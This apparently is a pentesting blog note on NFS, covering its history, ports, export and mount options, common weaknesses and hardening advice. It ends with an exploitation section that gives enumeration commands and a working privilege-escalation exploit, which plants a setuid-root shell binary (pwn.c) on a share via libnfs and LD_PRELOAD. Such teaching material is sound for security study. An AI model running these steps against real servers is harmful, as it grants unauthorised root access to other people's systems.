 ```yaml
--- 
title: "Pentesting Network File System(NFS)"
author: ""
date: 2023-09-17T13:53:46+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

NFS (Network File System) is a distributed file system protocol that allows users on client computers to access files over a network in the same way they would access a local storage. An administrator configures specific locations on the NFS server for data access by clients. 

Developed by Sun Microsystems in 1984, this protocol has evolved through several versions - NFSv2, NFSv3, and NFSv4. The first version was developed to connect unix-like hosts. Then NFSv2 which ran on UDP network protocol was released in 1989. In 1994, NFSv3 was released  to support asynchronous writes, manage 64 bit files and handle errors more effectively. Finally, NFSv4 with a NFSv4.1 minor release changed the narrative integrating security and adding features to communicate with Windows hosts via the Samba protocol.  

NFS service typically runs on `TCP/UDP port 111 and 2049` with `port 111` for mapping RPC program numbers to their respective ports and `port 2049` for establishing connection and data access. It is noteworthy that NFSv4 was designed to work exclusively on `port 2049`. To observe NFS communication on the wire see _NFS version 4 Communication_ traffic flow.
```shell
tcp nfs or port 111 or port 2049 # wireshark capture filter
mkdir $FOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDER  $LOCALFOLDER -o nolock
sudo ls $LOCALFOLDER
sudo umount $LOCALFOLDER
rm -fr $LOCALFOLDER
```
![NFS Communication](/images/nfs/00_nfs-connection.png "NFS version 4 Communication") 
 
**Common Server Application**
+ Unix systems
    - nfs-kernel-server
    - nfs-utils
    - NFS Ganesha
+ Windows systems
    - FS-NFS-Service
    - Allegro NFS Server  

**Common Commands**

| COMMAND | USAGE | DESCRIPTION |
|---|---|---|
| echo | echo '$SHAREPATH $DOMAINorIPorCIDR(server-options)' >> /etc/exports | write share configuration to `/etc/exports` |
| exportfs | exportfs `-a -r -o` server-options | export `/etc/exports` where a:all r:re-export o:options |
| nfsstat | nfsstat `-c -s` | entries display NFS statistics where c:client s:server |
| mount | mount -t $NFS_VERSION $IPorDomain:/$SHAREDFOLDER $LOCALFOLDER -o client-options | **mount** the shared folder on the client machine |
| showmount | showmount `-a -e` $DOMAINorIP | list the shared folder |
| umount | umount $LOCALFOLDER | unmount the shared folder from client machine |

<u>server-options - </u> ro:`read only directory`, rw:`read and write directory`, sync:`synchronous read/write operation`, async:`asynchronous read/write operation`,  no_subtree_check:`disable nested directory listing`, nohide:`enable nested directory listing`, fsid:`assign unique NFSv4 file system`, no_root_squash:`allows client root UID/GID privileges on directory`, root_squash:`disallows client root UID/GID privileges on directory`, all_squash:`maps client UID/GID to nobody`, no_all_squash:`preserves the client UID/GID on directory`, insecure:`allow unprivileged ports for NFS requests`, secure:`allow only privileged ports for NFS requests`.  

<u>client-options - </u> ro:`read only`, rw:`read and write`, noexec:`prevents binary execution`, nosuid:`disables setuid/setguid`, soft:`client return error on access failure`, hard:`client retries on access failure`, tcp:`use TCP connection`, udp:`use UDP connection`, vers=VERSION_NUMBER:`NFS protocol version to use i.e 2,3,4`, sec=SECURITY_MECHANISM:`security flavor to use for authentication i.e sys,kbr5,kbr5i,kbr5p,ntlm`, username=USERNAME:`username to authenticate with`, PASSWORD=PASSWORD:`password of the user to authenticate with`.

**Common Vulnerability**
- Exposure of Sensitive Information to an Unauthorized Actor: [CWE-200](https://www.cvedetails.com/cwe-details/200/Exposure-of-Sensitive-Information-to-an-Unauthorized-Actor.html)
- Improper Access Control: [CWE-284](https://www.cvedetails.com/cwe-details/284/Improper-Access-Control.html)
- Improper Authentication: [CWE-287](https://www.cvedetails.com/cwe-details/287/Improper-Authentication.html)
- Protection Mechanism Failure: [CWE-693](https://www.cvedetails.com/cwe-details/693/Protection-Mechanism-Failure.html)

**Security Best Practices**
- Implement access control mechanism on host and shared directories.
- Deploy NFSv4 with authentication and encryption.
- Deploy NFS servers in  isolated network.

**Exploitation**  
NFS servers are sink for information. The feature of this technology for mounting remote volumes as though they were resident on the local machine brings great ease to the user. While accessing the exported directory does not grant a full shell on the remote system, an attacker can browser an improperly configured NFS server to discover juicy information that may enable access to the remote server and even escalate their privilege. Hence, an attacker's inclination when an NFS service is encountered can include:
- What valuable information they can find on all the directories they are able to access.
- Whether they can execute a malicious file with elevated privilege via the remote systems shell.

```shell
## SERVICE ENUMERATION ##
# with nmap
ls /usr/share/nmap/scripts/nfs*    # list nmap ftp scripts
'SNIP
/usr/share/nmap/scripts/nfs-ls.nse
/usr/share/nmap/scripts/nfs-showmount.nse
/usr/share/nmap/scripts/nfs-statfs.nse
'
nmap -p 111,2049 -sV $IP   # show version
nmap -p 111,2049 --script nfs-statfs $IP    # show mount point status

# with metasploit
search scanner nfs
use auxiliary/scanner/nfs/nfsmount   # show mount points
show options
set rhosts $REMOTEIP
set lhost $LOCALIP
run
 
## CREDENTIAL ENUMERATION ##

## PATH ENUMERATION ##
# with nmap
nmap -p 111,2049 --script nfs-ls $IP    # list mounted folder content

# with nfs-common utilities
showmount -e $IP   # show exported folder and permission

## HOST ENUMERATION/FOOTPRINTING ##
# mount the share locally
mkdir $LOCALFOLDERNAME
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS
nfsstat -c   # show nfs client operation details
nfsstat -s   # show nfs server operation details

# create a user and group to match the server's
stat $LOCALFOLDERNAME/*    # list access attritube of files in shared folder
sudo useradd -u $USERID $USERNAME    # create user
sudo groupadd -g $GROUPID $GROUPNAME    # create group
sudo usermod -aG $GROUPNAME $USERNAME    # add user to group
sudo passwd $USERID    # on prompt: enter a password and confirm the password
su $USERID    # on prompt: submit password

# explore the share 
sudo mount -t nfs $IP:/$SHAREDFOLDERNAME $LOCALFOLDERNAME -o $SERVER_OPTIONS  # re mount
cd $LOCALFOLDERNAME      # now change into local  directory
ls $LOCALFOLDERNAME

# escalate privileges
# build and compile libnfs
Version=5.0.2
wget https://github.com/sahlberg/libnfs/archive/refs/tags/libnfs-${Version}.zip
unzip libnfs-${Version}.zip
mv libnfs-libnfs-${Version} libnfs; cd libnfs
./bootstrap && ./configure
make
gcc -fPIC -shared -o ld_nfs.so examples/ld_nfs.c -ldl -lnfs -I./include/ -L./lib/.libs/

# develop and compile the exploit
cat << 'EOF' > pwn.c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/usr/bin/bash");
}
EOF
gcc -fPIC -shared -nostartfiles -o pwn pwn.c

# upload pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14 to target
sudo cp {pwn,ld_nfs.so,lib/.libs/libnfs.so,lib/.libs/libnfs.so.14} $LOCALFOLDER

# prepare the exploit
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so cp pwn nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chown root: nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod o+rx nfs://$IP:/$SHAREDFOLDER/pwn
LD_NFS_UID=0 LD_LIBRARY_PATH=lib/.libs/ LD_PRELOAD=./ld_nfs.so chmod u+s nfs://$IP:/$SHAREDFOLDER/pwn

# run the exploit
$LOCALFOLDER/pwn

# clean up
sudo umount -f $LOCALFOLDER    # unmount the share 
rm -fr $LOCALFOLDER    # remove local mount folder
sudo userdel $USERNAME    # delete the user
sudo groupdel $GROUPNAME    # delete the group
```

**References**  
- https://cloudinfrastructureservices.co.uk/what-is-nfs-network-file-system-how-it-works/
- https://nfs.sourceforge.net/nfs-howto/
- https://learn.microsoft.com/en-us/windows-server/storage/nfs/deploy-nfs
- https://meowmeowattack.github.io/notes/ports-protocols/nfs/
- https://www.giac.org/paper/gsec/8216/nfs-security-trusted-untrusted-environments/112913